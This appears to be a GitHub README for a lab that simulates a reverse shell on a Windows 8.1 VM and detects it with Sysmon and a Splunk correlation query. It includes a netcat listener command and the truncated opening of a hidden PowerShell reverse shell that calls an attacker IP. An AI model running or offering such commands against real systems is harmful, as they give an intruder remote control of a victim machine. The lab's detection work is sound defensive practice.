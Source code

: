 # Reverse Shell 

This lab simulates a reverse on a Windows 8.1 VM and detects it using Splunk. It follows MITRE ATT&CK techniques:
- T1059.001 - PowerShell, 
- T1059.003 - Windows Command Shell

---

## 🛠️ Lab Setup

### Machines
- **Attacker**: Kali Linux (Hydra, smbclient)
- **Victim**: Windows 8.1 (Build 9600) with:
  - Sysmon
  - Splunk Universal Forwarder
- **SIEM**: Splunk Enterprise (host machine)

### Tools Used
- `netcat`: for reverse shell handling
- `Sysmon`: for process and network monitoring
- `Splunk`: for log ingestion and analysis

---

## 🧪 Attack Steps

- Ran nc -lnvp 4444 from Kali to open connection form windows.

- Simulated a reverse shell (PowerShell/cmd) from the Windows VM to Kali listener on a non-standard port.

# PowerShell TCP reverse shell (single-line; run in isolated lab only):

   powershell -NoP -NonI -W Hidden -Command "$client=New-Object System.Net.Sockets.TcpClient(\'192.168.29.30\',4444)

- Detection: Correlate Sysmon EventID=1 (process create) with EventID=3 (network connection) for the same ProcessId / commandline.
   ```spl
    index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" (EventCode=1 OR EventCode=3)
|   transaction ProcessId maxspan=1m
|   search Image="*powershell.exe" OR Image="*cmd.exe"
|   table _time, ProcessId, Image, CommandLine, src_ip, dest_ip, dest_port

   ```


   